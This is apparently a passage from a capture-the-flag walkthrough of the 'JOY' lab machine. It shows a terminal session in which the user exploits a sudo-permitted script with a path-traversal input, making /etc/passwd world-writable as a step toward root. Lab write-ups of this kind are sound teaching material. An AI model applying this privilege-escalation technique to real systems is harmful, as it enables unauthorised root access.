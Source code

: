 ```
patrick@JOY:/var/www/tryingharderisjoy/ossec$ sudo -l
sudo -l
Matching Defaults entries for patrick on JOY:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User patrick may run the following commands on JOY:
    (ALL) NOPASSWD: /home/patrick/script/test
patrick@JOY:/var/www/tryingharderisjoy/ossec$ sudo /home/patrick/script/test
sudo /home/patrick/script/test
I am practising how to do simple bash scripting!
What file would you like to change permissions within this directory?
../../../etc/passwd
../../../etc/passwd
What permissions would you like to set the file to?
777
777
Currently changing file permissions, please wait.
Tidying up...
Done!
patrick@JOY:/var/www/tryingharderisjoy/ossec$ ls -la /etc/passwd
ls -la /etc/passwd
-rwxrwxrwx 1 root root 2912 Mar 26 14:16 /etc/passwd
```

<img src="https://github.com/El-Palomo/JOY/blob/main/joy15.jpg" widht=80% />
